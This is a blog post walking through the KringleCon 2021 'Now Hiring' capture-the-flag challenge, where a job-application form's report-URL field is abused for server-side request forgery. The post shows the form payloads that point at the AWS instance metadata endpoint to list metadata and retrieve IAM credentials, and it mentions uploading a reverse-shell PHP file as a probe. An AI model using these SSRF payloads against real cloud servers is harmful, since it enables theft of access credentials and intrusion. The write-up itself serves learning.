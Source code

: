 ```yaml
---
tags:
  - post
  - kringlecon2021Post
title: Now Hiring
layout: post.njk
---
```

# Introduction
This is a challenge that I truely do reccomend doing. It teaches you something about AWS IMDS, something that is compleatly new to me. I suggest reading this page first to grasp a better understanding of what we are actually doing on the serverside. https://docs.aws.amazon.com/AWSEC2/latest/UserGuide/instancedata-data-retrieval.html
The description for the challenge is: *What is the secret access key for the Jack Frost Tower job applications server? Brave the perils of Jack's bathroom to get hints from Noxious O. D'or.*
So we are after a secret key.

# Recon
The current target is this webpage: https://apply.jackfrosttower.com/. A simple nmap scan did reveal several open ports, but none of those will be used in this write up.
The page is simple and lets you apply to join the Jack Frost team. The four pages are Home, Opportunities, Apply or About. Dirb did find https://apply.jackfrosttower.com/images/, the dir itself is 403 forbidden, but manually finding pictures there is allowed. I'll save that for later. 
Further enumeration surronding media on the site shows that the photos under opportunity are broken and have no data. Strange, but might help. 
The apply application lets you upload files and asks for Name, Email, Phone number, URL to NLBI report and additional information. 
What is a NLBI report? http://nppd.northpolechristmastown.com/
It's a report athat you are injustly set on the naughty list. I'm guessing it does a check up against that url to see if the user is allowed to apply.

So to summerize:
- We can most likely send the server to an url
- We can upload files
- We can manually check for images in the image folder if we know the name

We need to send something in the form to check the output, additionally I will start burp to make it easier to enumerate via the repeater.
I like to put unique values to see where they end up. By that we can easier understand what gave what error.
The email form didn't like that i added chars that were illegal, but thats on the clientside. Just edit the form with inspector to change the type field from email to text and you're good to go.
```
Name=Beans'
Email=TGC@nowhere.com--
Phone number:123123
Field of Expertise=Aggravated pulling of hair
Resume=php-reverse-shell.php (this file will not call back to me sience it is coded to a 192.168 address, but I wan't to see what happens).
URL to your public NLBI report = http://nppd.northpolechristmastown.com/infractions 
Additional information = Give root pls
```
With these parameters I only recive a submission recived. I can't find our data anywhere, so this must not be it.
I'm going to try IMDS to see what we recive:
```
Name=Beans'
Email=TGC@nowhere.com--
Phone number:123123
Field of Expertise=Aggravated pulling of hair
Resume=php-reverse-shell.php (this file will not call back to me sience it is coded to a 192.168 address, but I wan't to see what happens).
URL to your public NLBI report = http://169.254.169.254/latest/meta-data/
Additional information = Give root pls
```
This results in a new page! It tells us that they will be in touch. And we see a picture that is broken. But upon inspecting the picture, we seee that there is data in it. I downloaded it and tried to read the output. It resulted in the following:
```
ami-id
ami-launch-index
ami-manifest-path
block-device-mapping/ami
block-device-mapping/ebs0
block-device-mapping/ephemeral0
block-device-mapping/root
block-device-mapping/swap
elastic-inference/associations
elastic-inference/associations/eia-bfa21c7904f64a82a21b9f4540169ce1
events/maintenance/scheduled
events/recommendations/rebalance
hostname
iam/info
iam/security-credentials
iam/security-credentials/jf-deploy-role
instance-action
instance-id
instance-life-cycle
instance-type
latest
latest/api/token
local-hostname
local-ipv4
mac
network/interfaces/macs/0e:49:61:0f:c3:11/device-number
network/interfaces/macs/0e:49:61:0f:c3:11/interface-id
network/interfaces/macs/0e:49:61:0f:c3:11/ipv4-associations/192.0.2.54
network/interfaces/macs/0e:49:61:0f:c3:11/ipv6s
network/interfaces/macs/0e:49:61:0f:c3:11/local-hostname
network/interfaces/macs/0e:49:61:0f:c3:11/local-ipv4s
network/interfaces/macs/0e:49:61:0f:c3:11/mac
network/interfaces/macs/0e:49:61:0f:c3:11/owner-id
network/interfaces/macs/0e:49:61:0f:c3:11/public-hostname
network/interfaces/macs/0e:49:61:0f:c3:11/public-ipv4s
network/interfaces/macs/0e:49:61:0f:c3:11/security-group-ids
network/interfaces/macs/0e:49:61:0f:c3:11/security-groups
network/interfaces/macs/0e:49:61:0f:c3:11/subnet-id
network/interfaces/macs/0e:49:61:0f:c3:11/subnet-ipv4-cidr-block
network/interfaces/macs/0e:49:61:0f:c3:11/subnet-ipv6-cidr-blocks
network/interfaces/macs/0e:49:61:0f:c3:11/vpc-id
network/interfaces/macs/0e:49:61:0f:c3:11/vpc-ipv4-cidr-block
network/interfaces/macs/0e:49:61:0f:c3:11/vpc-ipv4-cidr-blocks
network/interfaces/macs/0e:49:61:0f:c3:11/vpc-ipv6-cidr-blocks
placement/availability-zone
placement/availability-zone-id
placement/group-name
placement/host-id
placement/partition-number
placement/region
product-codes
public-hostname
public-ipv4
public-keys/0/openssh-key
reservation-id
security-groups
services/domain
services/partition
spot/instance-action
spot/termination-time
```
So our query succeeded! We are using SSRF and IMDS to retrive information about the backend. Well, our goal is to retrive the public key, so lets do that!

# Exploitation
I used the following payload for my exploit:
```
Name=Beans'
Email=TGC@nowhere.com--
Phone number:123123
Field of Expertise=Aggravated pulling of hair
Resume=
URL to your public NLBI report = http://169.254.169.254/latest/meta-data/iam/security-credentials
Additional information = Give root pls
```
**The result**
```
{
        "Code": "Success",
        "LastUpdated": "2021-05-02T18:50:40Z",
        "Type": "AWS-HMAC",
        "AccessKeyId": "AKIA5HMBSK1SYXYTOXX6",
        "SecretAccessKey": "CGgQcSdERePvGgr058r3PObPq3+0CfraKcsLREpX",
        "Token": "NR9Sz/7fzxwIgv7URgHRAckJK0JKbXoNBcy032XeVPqP8/tWiR/KVSdK8FTPfZWbxQ==",
        "Expiration": "2026-05-02T18:50:40Z"
}
```

And there we got our flag!

# Final thoughts
I'm not sure how real world this is by having the results put into a picture. But the creativity makes it so much more fun.
If you want to do this in burp you can, then you have to go to the images subpage we found earlier and get them from there.

